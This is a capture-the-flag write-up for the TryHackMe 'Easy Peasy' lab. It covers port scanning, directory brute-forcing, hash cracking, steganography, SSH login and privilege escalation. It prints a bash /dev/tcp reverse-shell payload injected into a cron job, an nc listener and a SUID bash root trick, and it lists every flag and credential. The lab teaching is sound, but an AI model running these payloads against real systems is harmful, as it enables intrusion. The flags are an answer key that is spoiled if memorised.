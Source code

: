 # TryHackMe — Easy Peasy Write-up

📝 **Overview**

- Room: Easy Peasy  
- Difficulty: Easy  
- Tags: Enumeration, Web Exploitation, Steganography, Privilege Escalation  

---

## 🔍 Enumeration with Nmap

Scanning the target machine:

```bash
sudo nmap -sC -sV -T4 {target_IP}
```

Result:  
- 80/tcp → nginx 1.16.1  
- 6498/tcp → ssh  
- 65524/tcp → apache  

### Answers
1. How many ports are open? → **3**  
2. Version of Nginx? → **1.16.1**  
3. Service on the highest port? → **Apache**

---

## 💥 Exploiting the Machine

### Task 1 – Flag 1
Using **GoBuster**:

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://{IP}:80/
```

Found directory `/hidden` → `/whatever`.  
In the page source code we discovered a hidden hash.  
Decoded it using **CyberChef** → `From Base62`.  

✅ Flag 1 → **flag{f1rs7_fl4g}**

---

### Task 2 – Flag 2
Open:

```
http://{IP}:65524/robots.txt
```

Inside we find a strange User-Agent. Decoded it on md5hashing.net → got the flag.  

✅ Flag 2 → **flag{1m_s3c0nd_fl4g}**

---

### Task 3 – Flag 3
Check page source:

```
http://{IP}:65524
```

A hash was found → decoded with Base62.  

✅ Flag 3 → **flag{9fdafbd64c47471a8f54cd3fc64cd312}**  
Hidden path: `/n0th1ng3ls3m4tt3r`

---

### Task 4 – Hash Cracking
Save the hash into `password.txt`.  
Crack it using **John the Ripper** with the custom wordlist `easypeasy.txt`:

```bash
john --format=gost --wordlist=easypeasy.txt password.txt
```

Password: **mypasswordforthatjob**

---

### Task 5 & 6 – Steganography
In the web directory we found **binarycodepixarbay.jpg**.  
Check it with **stegseek**:

```bash
stegseek binarycodepixarbay.jpg easypeasy.txt
```

Result: extracted `secrettext.txt` with username and password.  

- Username: **boring**  
- Password (decoded from binary): **iconvertedmypasswordtobinary**

---

### Task 7 – User Flag
Connect via SSH:

```bash
ssh boring@{IP} -p 6498
```

Enter the password → access granted.  
Inside the home directory we find `user.txt`.  
The flag was encoded in ROT13 → decoded with CyberChef.  

✅ User Flag → **flag{n0wits33msn0rm4l}**

---

## 🚀 Privilege Escalation

Upload and run **linpeas.sh**.  
Found script `.mysecretcronjob.sh`. It had only comments, so we injected a reverse shell from [revshells.com](https://www.revshells.com/).

Example payload:

```bash
bash -i >& /dev/tcp/{Your_IP}/4242 0>&1
```

Start listener:

```bash
nc -lvnp 4242
```

When the connection popped, escalate privileges:

```bash
chmod +s /bin/bash
/bin/bash -p
```

Now we are root.  
In the root directory we find `.root.txt`.  

✅ Root Flag → **flag{R00t_Acc3ss_C0mpl3t3}**

---

## ✅ Summary of Flags

1. flag{f1rs7_fl4g}  
2. flag{1m_s3c0nd_fl4g}  
3. flag{9fdafbd64c47471a8f54cd3fc64cd312}  
4. Password cracked → mypasswordforthatjob  
5. stegseek → secrettext.txt (user: boring, pass: iconvertedmypasswordtobinary)  
6. User flag → flag{n0wits33msn0rm4l}  
7. Root flag → flag{R00t_Acc3ss_C0mpl3t3}

---

🎯 Machine completed successfully!  
